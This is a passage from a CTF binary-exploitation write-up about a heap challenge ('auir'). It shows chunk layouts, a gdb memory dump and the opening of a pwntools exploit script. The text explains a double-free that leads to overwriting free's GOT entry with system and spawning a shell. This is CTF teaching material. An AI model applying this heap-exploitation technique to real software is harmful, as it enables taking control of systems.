 ```
6:	16 bytes large:		"7"*16
7:	96 bytes large:		"8"*96
8 and 11:	96 bytes large:		"9"*96 (8 has been freed)
4 and 9 and 10 and 12:	120 and 96*3 bytes large:	(starting address freed twice) starts with address 0x605060
2:	240 bytes large:	"2"*240 (freed)
3:	48 bytes large:		"3"*48
14:	points to bss address 0x605060
```

and we can see the pointer to the bss section in memory:

```
gdb-peda$ x/14g 0x605310
0x605310:	0x00000000024a1c20	0x00000000024a1d20
0x605320:	0x00000000024a1da0	0x00000000024a1ea0
0x605330:	0x00000000024a1d20	0x00000000024a1c20
0x605340:	0x00000000024a1c20	0x00000000024a1c40
0x605350:	0x00000000024a1cb0	0x00000000024a1d20
0x605360:	0x00000000024a1d20	0x00000000024a1cb0
0x605370:	0x00000000024a1d20	0x00000000006052fd
```

and we can see there, as the very last spot is a pointer to the bss address `0x6052fd`. Using that, we can write over the pointers for zealots. With that we can write over the got address of `free` with `system`, and just free a zealot with the string `/bin/sh`, and we will get a shell. Once again, when I wrote this exploit I didn't reverse the code as well as I should have, I missed a couple of things, and as a result the exploit that I wrote is more complicated than it needs to be.

## Exploit

Below is the source code for my exploit:

```
# This exploit is based off of and similar to this writeup for a different ctf challenge from RCTF: https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/ https://github.com/sajjadium/ctf-writeups/tree/master/RCTF/2018/babyheap

# First import pwntools
from pwn import *

#Estbalish the target process, libc file, and attach gdb
target = process('auir', env={"LD_PRELOAD":"./libc-2.23.so"})
#gdb.attach(target)
libc = ELF('libc-2.23.so')

#Establish the functions to interact with the elf
def makeZealot(size, content):
	target.recvuntil(">>")
	target.sendline('1')
	target.recvuntil(">>")
	target.sendline(str(size))
	target.recvuntil(">>")
	target.send(content)

def destroyZealot(index):
	target.recvuntil(">>")
	target.sendline('2')
	target.recvuntil(">>")
	target.sendline(str(index))

def fixZealot(index, size, content):
	target.recvuntil(">>")
	target.sendline('3')
	target.recvuntil(">>")
```